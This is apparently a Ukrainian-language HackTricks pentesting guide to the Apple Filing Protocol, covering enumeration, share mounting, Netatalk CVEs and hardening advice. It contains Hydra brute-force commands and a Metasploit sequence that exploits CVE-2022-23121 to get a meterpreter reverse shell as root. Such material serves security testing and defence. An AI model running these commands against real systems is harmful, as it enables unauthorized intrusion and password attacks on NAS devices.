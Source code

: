 # 548 - Pentesting Apple Filing Protocol (AFP)

{{#include ../banners/hacktricks-training.md}}

## Основна інформація

**Apple Filing Protocol** (**AFP**), раніше відомий як AppleTalk Filing Protocol, є спеціалізованим мережевим протоколом, що входить до складу **Apple File Service** (**AFS**). Він призначений для надання файлових послуг для macOS та класичного Mac OS. AFP вирізняється підтримкою імен файлів у форматі Unicode, дозволів у стилі POSIX та ACL, ресурсних forks, іменованих розширених атрибутів та складних механізмів блокування файлів.

Хоча AFP був замінений SMB у сучасних випусках macOS (SMB є за замовчуванням з OS X 10.9), його все ще можна зустріти в:

* Спадкових середовищах macOS / Mac OS 9
* NAS-пристроях (QNAP, Synology, Western Digital, TrueNAS…), які вбудовують відкритий **Netatalk** демон
* Мережах з різними ОС, де все ще увімкнено Time-Machine-over-AFP

**Порт TCP за замовчуванням:** **548** (AFP через TCP / DSI)
```bash
PORT     STATE SERVICE
548/tcp  open  afp
```
---

## Перерахування

### Швидка інформація про банер / сервер
```bash
# Metasploit auxiliary
use auxiliary/scanner/afp/afp_server_info
run RHOSTS=<IP>

# Nmap NSE
nmap -p 548 -sV --script "afp-* and not dos" <IP>
```
Корисні скрипти AFP NSE:

| Скрипт | Що він робить |
|--------|--------------|
| **afp-ls**            | Перелік доступних обсягів та файлів AFP |
| **afp-brute**         | Брутфорс паролів для входу в AFP |
| **afp-serverinfo**    | Виводить ім'я сервера, тип машини, версію AFP, підтримувані UAM тощо. |
| **afp-showmount**     | Перелік спільних ресурсів разом з їхніми ACL |
| **afp-path-vuln**     | Виявляє (і може експлуатувати) перехід по каталогах, CVE-2010-0533 |

Скрипт брутфорсу NSE можна поєднати з Hydra/Medusa, якщо потрібен більший контроль:
```bash
hydra -L users.txt -P passwords.txt afp://<IP>
```
### Взаємодія з загальними ресурсами

*macOS*
```bash
# Finder → Go → "Connect to Server…"
# or from terminal
mkdir /Volumes/afp
mount_afp afp://USER:[email protected]/SHARE /Volumes/afp
```
*Linux* (використовуючи `afpfs-ng` ‑ упакований у більшості дистрибутивів)
```bash
apt install afpfs-ng
mkdir /mnt/afp
mount_afp afp://USER:[email protected]/SHARE /mnt/afp
# or interactive client
afp_client <IP>
```
Після монтування пам'ятайте, що класичні ресурси Mac зберігаються як приховані `._*` файли AppleDouble – вони часто містять цікаві метадані, які пропускають інструменти DFIR.

---

## Загальні вразливості та експлуатація

### Netatalk неавторизований RCE ланцюг (2022)

Кілька постачальників NAS випустили **Netatalk ≤3.1.12**. Відсутність перевірки меж у `parse_entries()` дозволяє зловмиснику створити шкідливий заголовок **AppleDouble** і отримати **віддалений root** до аутентифікації (**CVSS 9.8 – CVE-2022-23121**). Повний звіт від NCC Group з PoC, що експлуатує Western-Digital PR4100, доступний.

Metasploit (>= 6.3) постачає модуль `exploit/linux/netatalk/parse_entries`, який доставляє корисне навантаження через DSI `WRITE`.
```bash
use exploit/linux/netatalk/parse_entries
set RHOSTS <IP>
set TARGET 0   # Automatic (Netatalk)
set PAYLOAD linux/x64/meterpreter_reverse_tcp
run
```
Якщо цільова система працює на вразливій прошивці QNAP/Synology, успішна експлуатація призводить до отримання оболонки як **root**.

### Переповнення купи OpenSession Netatalk (2018)

Стара версія Netatalk (3.0.0 - 3.1.11) вразлива до запису за межами меж у обробнику **DSI OpenSession**, що дозволяє виконання неавтентифікованого коду (**CVE-2018-1160**). Детальний аналіз та PoC були опубліковані Tenable Research.

### Інші помітні проблеми

* **CVE-2022-22995** – Перенаправлення символічних посилань, що призводить до запису довільних файлів / RCE, коли AppleDouble v2 увімкнено (3.1.0 - 3.1.17).
* **CVE-2010-0533** – Перехід по каталогах в Apple Mac OS X 10.6 AFP (виявлено за допомогою `afp-path-vuln.nse`).
* Було виправлено кілька помилок безпеки пам'яті в **Netatalk 4.x (2024)** – рекомендується оновлення замість патчування окремих CVE.

---

## Рекомендації щодо захисту

1. **Вимкніть AFP**, якщо це не є строго необхідним – використовуйте SMB3 або NFS замість цього.
2. Якщо AFP повинен залишитися, **оновіть Netatalk до ≥ 3.1.18 або 4.x**, або застосуйте прошивку постачальника, яка включає патчі 2022/2023/2024.
3. Вимагайте **Сильні UAM** (наприклад, *DHX2*), вимкніть логіни у відкритому тексті та гостьові логіни.
4. Обмежте TCP 548 для довірених підмереж і оберніть AFP у VPN, коли він відкритий віддалено.
5. Періодично скануйте за допомогою `nmap -p 548 --script afp-*` у CI/CD, щоб виявити зловмисні / знищені пристрої.

---

### [Brute-Force](../generic-hacking/brute-force.md#afp)

## Посилання

* Netatalk Security Advisory CVE-2022-23121 – "Виконання довільного коду в parse_entries" <https://netatalk.io/security/CVE-2022-23121>
* Tenable Research – "Експлуатація 18-річної помилки (CVE-2018-1160)" <https://medium.com/tenable-techblog/exploiting-an-18-year-old-bug-b47afe54172>
{{#include ../banners/hacktricks-training.md}}
